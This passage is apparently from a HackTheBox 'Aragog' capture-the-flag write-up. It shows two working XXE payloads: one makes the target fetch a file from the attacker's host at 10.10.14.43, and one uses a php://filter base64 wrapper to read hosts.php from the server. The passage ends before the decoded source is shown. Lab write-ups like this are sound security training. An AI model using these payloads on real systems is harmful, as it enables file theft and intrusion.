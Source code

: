 ```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.10.14.43/myfile.txt"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test>
</test>
</details>
```

![fetch-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Aragog/img/fetch-12.png)

We can see that not only the target fetched the file, it opend it , and used it's contents to render the response. So I decided to retrive the source code for the `hosts.php` file to see how we can break it's logic. I used the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///var/www/html/hosts.php"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test>
</test>
</details>
```

This returns the file in base64, after decoding it it looks like this:
